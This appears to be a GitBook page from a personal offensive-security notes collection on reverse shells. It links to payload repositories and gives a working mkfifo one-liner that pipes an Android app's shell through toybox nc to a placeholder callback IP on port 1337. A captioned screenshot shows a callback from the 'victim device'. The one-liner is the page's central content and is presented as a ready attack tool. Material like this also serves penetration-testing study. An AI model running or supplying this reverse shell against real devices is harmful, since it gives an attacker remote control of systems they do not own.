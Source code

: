```yaml
---
description: 06/17/2024
cover: https://y.yarn.co/3fe0745c-8406-4773-ab65-c27b3b1190ad_text.gif
coverY: -14
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 📵 Reverse Shells

## Every Hacker Needs Good Reverse Shells to Complete the Mission...

### References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings" %}
The goat
{% endembed %}

{% embed url="https://www.revshells.com" %}
The goat II
{% endembed %}

{% content-ref url="../../binary-exploitation/shellcode/arm-shellcode.md" %}
[arm-shellcode.md](../../binary-exploitation/shellcode/arm-shellcode.md)
{% endcontent-ref %}

{% hint style="info" %}
**Looking for shellcode? Be sure to check out my ARM Shellcode guide listed above!**
{% endhint %}

### `mkfifo`

A solid reverse shell and somewhat mandatory one to make living-off-the-land (LOL) easier, is an `mkfifo` reverse shell which is essentially a shared memory region for one or more applications or connections simultaneously.&#x20;

`mkfifo` stands for make first-in-first-out.

**PoC:**

```
"rm /data/data/com.target.application/f;/system/bin/toybox mkfifo /data/data/com.target.application/f;cat /data/data/com.target.application/f|/system/bin/sh -i 2>&1|/system/bin/toybox nc <callback_ip_here> 1337 >/data/data/com.target.application/f"
```

### Result

<figure><img src="../../.gitbook/assets/image (208).png" alt=""><figcaption><p>Getting a callback from the victim device</p></figcaption></figure>
